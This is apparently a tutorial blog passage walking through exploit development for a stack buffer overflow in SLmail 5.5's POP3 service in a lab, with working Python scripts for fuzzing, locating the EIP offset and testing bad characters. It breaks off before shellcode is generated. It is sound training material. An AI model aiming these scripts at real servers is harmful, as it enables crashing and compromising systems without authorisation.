



# Buffer overflow

Pulling off a classical Win32 buffer overflow is a lot like baking a fancy cake. The [cake recipe](https://www.foodnetwork.ca/recipe/raspberry-mascarpone-black-forest-cake/15205/) is actually a bunch of smaller recipes for the topping, the icing, the layers and the filling. If you don't get each mini-recipe right, the cake will suck.

Similarly, a buffer overflow recipe has the following mini-recipes:

**Find the instruction pointer**

* Make a simple script to shove a bunch of garbage into an input field and crash the program
* Find the exact number of characters required to reach the EIP \(instruction pointer\)

**Make shellcode**

* Find the 'bad' characters that will prevent your exploit from working
* Generate shellcode without bad characters

**Redirect execution of the program**

* Inspect the program's .dll files to find one without memory protections 
* Once you've found a suitable .dll, search for a `JMP ESP` \(jump to the stack pointer\) command
* Record the memory address for this command

**Assemble the exploit**

* Update your simple script to hit the EIP, jump to the ESP and execute your shellcode
* Throw in a few nops for breathing room
* Don't forget to put the `JMP ESP` memory address in backwards!

If you haven't done this before, many of the terms above will be unfamiliar, but don't worry. Contrary to what some people say, you can do simple buffer overflows without knowing much about Assembly or memory layout. I spent far too much time reading about those things and freaking myself out. All you need to get started is in the video below.



## Setup

If you're signed up for [PWK-OSCP](https://www.offensive-security.com/information-security-training/penetration-testing-training-kali-linux/), you'll get a Windows 7 lab machine with tools installed to practice buffer overflows. It's also pretty easy to set up yourself if you can run 2 virtual machines \(Kali and Windows\) or run a Windows VM on a native Kali machine. In all cases, the Kali machine needs to be able to reach the Windows machine over the network.

1. Download and install a [Windows 7 virtual machine](https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/)
2. **Turn off Windows Firewall**
3. Download and install:
   * [Chrome](https://www.google.com/chrome/)
   * [Netcat](https://eternallybored.org/misc/netcat/)
   * [Immunity Debugger](https://www.immunityinc.com/products/debugger/index.html)
   * [Mona.py](https://github.com/corelan/mona)

At this point, you'll want to snapshot your VM so that you can revert back if your Windows trial expires or you blow up the whole operating system somehow.

## SLmail 5.5

SLmail is one of the classic examples for teaching buffer overflows. There are lots of walkthroughs online, but not everything was explained for ultranoobs like me. [This is the best walkthrough I've found](https://www.hugohirsh.com/?p=509), and is worth reading entirely before starting.

### Install SLmail

[Download it from Exploit-DB](https://www.exploit-db.com/apps/12f1ab027e5374587e7e998c00682c5d-SLMail55_4433.exe) and install with defaults \(just keep hitting Next\). Since you'll be attacking the POP server on port 110, you should check if it's open and reachable. You can do this by connecting to it from your Windows netcat program:

 `nc [Windows IP] 110`

You can also confirm the POP3 service is running with a quick nmap scan from your Kali machine. This becomes important when you run the debugger and crash the program - you can restart it by clicking on the `slmail.exe` program, but I've noticed that the port may not show up unless you restart Windows. Checking that the POP3 service is up will save you a lot of headaches during exploitation.

### Find the instruction pointer

The first step is to crash the program by submitting an overly-long password during login, and watch what happens in Immunity Debugger.

Create a small python script that will repeatedly log into the mail server and submit long strings of characters for the password:

```python
#!/usr/bin/python
import socket

# Create an array where each item in the array will be a string of As
buffer=["A"]
counter=100

# Use a loop to build the array, first with 100 As, then 300, then 500, etc.
while len(buffer) <= 30:
    buffer.append("A"*counter)
    counter=counter+200

# Try each string of As in the array as a password value
for string in buffer:
    print "Fuzzing PASS with %s bytes" % len(string)
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
# Connect to Windows 7 machine IP, POP3 service
    connect=s.connect(('10.0.0.1',110)) 
    s.recv(1024)
    s.send('USER username\r\n')
    s.recv(1024)
    s.send('PASS ' + string + '\r\n')
    s.send('QUIT\r\n')
    s.close()
```

Open Immunity Debugger, click `File > Attach` and choose `SLmail.exe`. You'll see four quadrants of gibberish representing machine language, registers, dump and stack. The program will be paused, so you'll need to hit the Play icon or F9 to run it.

Then run the above python script and observe the output in the terminal. It should hang after the message `Fuzzing PASS with 2900 bytes`, which tells you that a crash occurs somewhere around 2700 bytes. Meanwhile, Immunity Debugger will show that the EIP has been overwritten with `41414141`, or more specifically, a bunch of As. An "A" in hex is represented by `x\41`.



The EIP is important because it is the instruction pointer - it holds the memory address of the next instruction to be carried out. The goal is to overwrite the EIP with a new memory address which points to malicious code. To do this, you need to find out exactly how many characters it takes to reach the EIP without overwriting it.

The fastest way to do this is to send a unique, 2700-character string as the password and observe which character segment overwrites the EIP. This can be done [online](https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html) or in Kali using Metasploit's `pattern_create` tool:

```text
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700
```

This will produce a block of random characters that you can plug into your script instead of the As:

```python
#!/usr/bin/python

import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
# Buffer with unique character string
buffer = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9Da0Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9Dc0Dc1Dc2Dc3Dc4Dc5Dc6Dc7Dc8Dc9Dd0Dd1Dd2Dd3Dd4Dd5Dd6Dd7Dd8Dd9De0De1De2De3De4De5De6De7De8De9Df0Df1Df2Df3Df4Df5Df6Df7Df8Df9Dg0Dg1Dg2Dg3Dg4Dg5Dg6Dg7Dg8Dg9Dh0Dh1Dh2Dh3Dh4Dh5Dh6Dh7Dh8Dh9Di0Di1Di2Di3Di4Di5Di6Di7Di8Di9Dj0Dj1Dj2Dj3Dj4Dj5Dj6Dj7Dj8Dj9Dk0Dk1Dk2Dk3Dk4Dk5Dk6Dk7Dk8Dk9Dl0Dl1Dl2Dl3Dl4Dl5Dl6Dl7Dl8Dl9"

try: 
    print "\nSending buffer..."
# Connect to Windows 7 machine, POP3 service    
    s.connect(('10.0.0.1',110))
    data = s.recv(1024)
    s.send('USER username' + '\r\n')
    data = s.recv(1024)
    s.send('PASS ' + buffer + '\r\n')
    print "\nDone!"

except:
    print "Could not connect!"
```

When you run this script, the EIP will be written with some fragment of this unique string:



This is where things get tricky. If you want to search for the value using [the online tool](https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html), you need to decode the number `39 69 44 38` from hex but when you do \(e.g. using [CyberChef](https://gchq.github.io/CyberChef/)\) the value will be `9iD8`. I'm not 100% sure why, but I think because of this stupid thing called [little endian](https://searchnetworking.techtarget.com/definition/big-endian-and-little-endian), you need to **flip** this value before searching for it in your unique 2700-character string: `8Di9`.



The less upsetting method is to use Metasploit's `pattern_offset` tool to find the value:

`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2700 -q 39694438  
[*] Exact match at offset 2606`  
  
So the exact position of the EIP is **2606**. 

### **Make shellcode**

So now that we know that it takes 2606 characters overwrite the stack and touch the EIP, we can prepare some malicious shellcode and use that instead of a unique character string. The goal in this step is to generate some shellcode that can be successfully executed by the program.

In order to run successfully, the shellcode can't contain characters that will be interpreted incorrectly by the program you are exploiting \(such as newline\). These can be identified by overflowing the buffer until the EIP is overwritten, then inserting the hex representation of all 256 ASCII characters:

```python
#!/usr/bin/python

import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Create a buffer full of As to touch the EIP
buffer = "A" * 2606
# Add 4 Bs to overwrite the EIP
buffer += "B" * 4
# Add all 256 ASCII characters to test for bad ones
buffer += (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )

try: 
    print "\nSending buffer..."
# Connect to Windows 7 machine, POP3 service    
    s.connect(('10.0.0.1',110))
    data = s.recv(1024)
    s.send('USER username' + '\r\n')
    data = s.recv(1024)
    s.send('PASS ' + buffer + '\r\n')
    print "\nDone!"

except:
    print "Could not connect!"
```


